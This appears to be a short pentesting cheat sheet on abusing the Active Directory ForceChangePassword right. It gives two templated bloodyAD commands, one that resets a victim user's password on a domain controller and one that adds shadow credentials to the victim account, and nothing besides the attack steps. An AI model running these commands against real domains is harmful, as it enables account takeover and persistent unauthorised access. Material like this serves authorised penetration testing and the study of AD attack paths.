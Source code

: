 # ForceChangePassword

## 1. Setting Password
```
bloodyAD --host <DC_FQDN> -d '<DOMAIN>' --dc-ip <DC_IP> -u <USERNAME> -p '<PASSWORD>' set password "<VICTIM_USER>" "<VICTIM_PASS>"
```

## 1a. Setting Shadow Credentials
```
bloodyAD --host <DC_FQDN> -d '<DOMAIN>' --dc-ip <DC_IP> -u <USERNAME> -p '<PASSWORD>' add shadowCredentials "<VICTIM_USER>"
```
